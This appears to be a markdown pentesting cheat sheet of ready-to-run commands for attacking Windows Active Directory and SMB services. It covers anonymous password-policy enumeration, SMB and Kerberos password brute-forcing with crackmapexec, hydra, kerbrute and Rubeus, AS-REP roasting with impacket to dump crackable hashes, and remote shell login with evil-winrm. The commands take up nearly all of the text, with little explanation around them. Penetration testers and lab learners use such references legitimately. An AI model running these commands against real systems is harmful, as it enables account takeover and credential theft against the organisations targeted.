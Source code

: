 #### crackmapexec password policy
    - enum4linux for groups, password policies etc
```
crackmapexec smb $IP -u "" -p "" --pass-pol # anonymous users in precompatiblity group in domains upgraded since 2003/2008
```

#### crackmapexec bruteforce
```
crackmapexec smb $IP -u userlist -p passwordlist

```

#### with user list - GetNPUsers.py
```
sudo python GetNPUsers.py domain.local/ -dc-ip $IP -request -usersfile /home/users.txt
```

#### with creds - SMB & Evil-WinRM
```
evil-winrm -u username -p password -i $IP
```

#### bruteforce with hydra
```
hydra -L /home/users.txt -p password smb://$IP
```


#### [kerbrute](https://github.com/TarlogicSecurity/kerbrute) bruteforce
```
python kerbrute.py -domain <domain_name> -users <users_file> -passwords <passwords_file> -outputfile <output_file>
```

#### [Rubeus](https://github.com/Zer1t0/Rubeus) bruteforce
```
# with a list of users
.\Rubeus.exe brute /users:<users_file> /passwords:<passwords_file> /domain:<domain_name> /outfile:<output_file>

# check passwords for all users in current domain
.\Rubeus.exe brute /passwords:<passwords_file> /outfile:<output_file>
```


#### ASREPRoast with [impacket](https://github.com/SecureAuthCorp/impacket)
```
cp /usr/share/doc/python3-impacket/examples/GetNPUsers.py . # Users that do not require kerberos preauth
sudo python3 GetNPUsers.py box.local/ -dc-ip $(cat ip) -usersfile userlist.smb -format john -outputfile hashes.getnpusers

```
